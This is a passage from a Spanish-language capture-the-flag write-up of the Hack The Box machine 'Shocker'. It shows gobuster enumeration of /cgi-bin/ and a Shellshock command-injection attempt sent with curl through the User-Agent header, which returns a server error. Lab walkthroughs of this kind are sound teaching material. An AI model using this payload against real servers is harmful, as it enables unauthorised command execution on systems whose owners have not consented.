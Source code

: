 Aqui ya existe algo que nos llamada la atención, el directorio `/cgi-bin/`, el cual es un recurso en donde por lo general se encuentran y se ejecutan scripts basados en Perl, .cgi shell, entre otros. Por lo que ya debemos estar pensando en tratar de identificar scripts con diversas extensiones, como por ejemplo sh, cgi, pl y por cualquier cosa, también buscaremos html, php y txt.

```bash
❯ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .sh .cgi .pl .html .php .txt -t 200
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh
[+] Timeout:                 10s
===============================================================
2021/12/16 21:23:59 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
Progress: 109694 / 441122 (24.87%)            ^C
[!] Keyboard interrupt detected, terminating.
                                               
===============================================================
2021/12/16 21:25:16 Finished
===============================================================
```

Encontramos un recurso llamado `user.sh`, así que vamos a echarle un ojito.

![""](/assets/images/htb-shocker/shocker-web1.png)

A este punto, ya debemos estar pensando en el ataque [***ShellSock***](https://es.wikipedia.org/wiki/Shellshock_(error_de_software)), así que vamos a tratar de explotarlo mediante la herramienta `curl`:

```bash
❯ curl -H "User-Agent: () { :; }; whoami" http://10.10.10.56/cgi-bin/user.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>
```